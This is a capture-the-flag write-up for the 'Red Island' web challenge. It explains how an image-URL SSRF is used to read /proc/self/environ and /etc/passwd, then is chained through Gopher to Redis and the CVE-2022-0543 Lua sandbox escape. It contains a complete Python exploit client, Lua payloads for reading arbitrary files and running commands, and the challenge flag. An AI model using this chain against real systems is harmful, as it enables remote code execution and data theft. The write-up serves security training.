





# [Web] Red Island

Red Island is an application where we can upload any image via their URL. The URL will be fetched, and the image turned red. For instance:


This calls for [SSRF](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)! We can either call Remote or Local Files. Let’s try it out with `file:///proc/self/environ`. This gives us access to all the pods deployed on Kubernetes.



And now with `file:///etc/passwd`, all the users in the current docker pod:



We now know this is running a Redis cache. Well for **Red Is**land, not surprising anymore!

In order to communicate with Redis from a SSRF, we can use the protocol [Gopher](https://redis.io/docs/reference/gopher/). This [article](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b?gi=548a40aaf293) gives a great walk-through on how Gopher can be used to talk to Redis via a SSRF.

Now, there are a few vulnerabilities using Redis we could try to exploit. However:

 - Redis CVE [4.x/5.x RCE](https://github.com/Ridter/redis-rce), using `SLAVEOF` replication and `MODULE LOAD`: the Redis instance doesn't connect to our rogue Redis server
 - Using the same `MODULE LOAD`, but uploading our own module: `413 Payload Too Large`. Damn!
 - Redis LUA scripting, such as `SCRIPT LOAD f=io.open("/flag.txt","rb");print(f:read)`, however it should forbid us to access anything outside Redis (host, network, etc). This should be forbidden by [Redis Sandbox](https://redis.io/docs/manual/programmability/#sandboxed-script-context)

**Should**

Redis [CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543) allows to escape the sandbox and use LUA functions that can execute commands on the host running Redis.

Let's try to use this in order to escalate our Gopher SSRF into code execution. We can use the `SCRIPT LOAD` and `EVALSHA` commands in order to provision scripts, get their SHA1, and execute them with arguments given by the `EVALSHA` command.

We can create scripts, using an URL encoded [Gopher payload generation](https://raw.githubusercontent.com/rhamaa/Web-Hacking-Lab/master/SSRF_REDIS_LAB/payload_redis.py):



We script the user registration, user login and payload generation for ease of use. However, using spaces is interpreted as different commands. Tis just a scratch, we can use LUA's `string.char(32)` in order to generate spaces wherever we want.

```
#!/usr/bin/env python

import urllib.parse
import requests
import json
import sys
import time

headers = {"Content-Type": "application/json"}

def logout(session, host):
    logout_path = "/logout"
    session.get(host + logout_path)

def login(session, host, username, password):
    login_path = "/api/login"
    resp = session.post(host + login_path, json={'username':username,'password':password}, headers=headers)
    if resp.status_code == 200:
        print("[+] logged in")
        return True
    else:
        print("[-] login failed: {}".format(resp.status_code))
        return False

def register(session, host, username, password):
    reg_path = "/api/register"
    resp = session.post(host + reg_path, json={'username':username,'password':password}, headers=headers)
    if resp.status_code == 200:
        print("[+] registered")
        return True
    else:
        print("[-] register failed: {}".format(resp.status_code))
        return False

def generate(session, host, payload, username, password):
    generate_path = "/api/red/generate"
    resp = session.post(host + generate_path, json={"url": payload}, headers=headers)
    tries = 0
    max_tries = 5
    while tries < max_tries:
        try:
            text = json.loads(resp.text)
            if 'message' in text:
                if text['message'] == 'The URL specified is unreachable!':
                    print("[~] URL specificed unreachable, retrying")
                elif text['message'] == 'Authentication expired, please login again!':
                    print("[-] Auth expired, reloging")
                    login(session, host, username, password)
                else:
                    print(text['message'])
                    return True
        except Exception as e:
            print("[-] error: {}".format(str(e)))
            return False
        finally:
            tries += 1
            time.sleep(1)
    logout(session, host)

def generate_resp(command):
    res = ""
    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
    return res

def generate_gopher(payload):
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    print("[+] generated {}".format(final_payload))
    return final_payload

def main():
    session = requests.Session()
    if len(sys.argv) != 4:
        print("[!] Usage: {} url username password".format(sys.argv[0]))
        exit()
    host = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ret = register(session, host, username, password)
    ret = login(session, host, username, password)
    if ret:
        while True:
            res = ''
            string = input('> ')
            res += generate_resp(string)
            res += generate_resp('quit')
            res = res.replace("\n","\r\n")
            ret = generate(session, host, generate_gopher(res), username, password)
    else:
        print("[-] exiting")
        exit()

main()
```

Using the script as a Redis CLI together with our whitespace bypass, we can create any script we want, such as:

 - Read any file: `SCRIPT LOAD return(package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0","luaopen_io")().open(ARGV[1],"r"):read("*a"))`
 - Run any 1 arg command: `SCRIPT LOAD return(package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0","luaopen_io")().popen(ARGV[1],"r"):read("*a"))`
 - Run any 2 arg command: `SCRIPT LOAD return(package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0","luaopen_io")().popen(ARGV[1]..string.char(32)..ARGV[2],"r"):read("*a"))`
 - Just read the flag: `SCRIPT LOAD f=io.open("/root/flag","rb");print(f:read)`

For instance, with the 2 args command:



Or the arbitrary read:



The flag is `HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}`
